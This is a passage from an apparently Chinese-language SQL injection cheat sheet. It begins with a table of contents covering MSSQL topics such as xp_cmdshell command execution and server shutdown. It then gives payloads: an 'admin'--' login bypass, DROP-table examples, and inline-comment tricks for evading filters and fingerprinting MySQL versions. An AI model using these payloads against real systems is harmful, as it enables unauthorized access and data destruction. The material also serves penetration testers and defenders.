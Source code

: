         2.  文件插入(Bulk Insert)(S)
        3.  BCP(S)
        4.  SQL Server的VBS/WSH(S)
        5.  执行系统命令，xp_cmdshell(S)
        6.  SQL Server中的一些特殊的表(S)
        7.  SQL Server的其它内置程序(S)
        8.  大量MSSQL笔记
        9.  使用LIMIT(M)或ORDER(MSO)的注入
        10.  关掉SQL Server(S)
    16.  在SQL Server 2005中启用xp_cmdshell
    17.  探测SQL Server数据库的结构(S)
        1.  获取用户定义表
        2.  获取字段名
    18.  移动记录(Moving records)(S)
    19.  快速的脱掉基于错误(Error Based)的SQL Server注入(S)

0x02 语法参考，攻击样例以及注入小技巧
=====================

* * *

### 行间注释

**注释掉查询语句的其余部分**

行间注释通常用于注释掉查询语句的其余部分，这样你就不需要去修复整句语法了。

*   `--`(SM)
    
    `DROP sampletable;--`
    
*   `#`(M)
    
    `DROP sampletable;#`
    

#### 使用了行间注释的SQL注入攻击样例

> 用户名:`admin'--`

*   构成语句:`SELECT * FROM members WHERE username = 'admin'--' AND password = 'password'`这会使你以admin身份登陆，因为其余部分的SQL语句被注释掉了。

### 行内注释

**通过不关闭注释注释掉查询语句的其余部分**，或者用于**绕过过滤**，移除空格，混淆，或探测数据库版本。

*   `/*注释内容*/`(SM)
    
    *   `DROP/*comment*/sampletable`
    *   `DR/**/OP/*绕过过滤*/sampletable`
    *   `SELECT/*替换空格*/password/**/FROM/**/Members`
*   `/*! MYSQL专属 */`(M)
    
    这是个MySQL专属语法。非常适合用于探测MySQL版本。如果你在注释中写入代码，只有MySQL才会执行。同样的你也可以用这招，使得只有高于某版本的服务器才执行某些代码。`SELECT /*!32302 1/0, */ 1 FROM tablename`
    
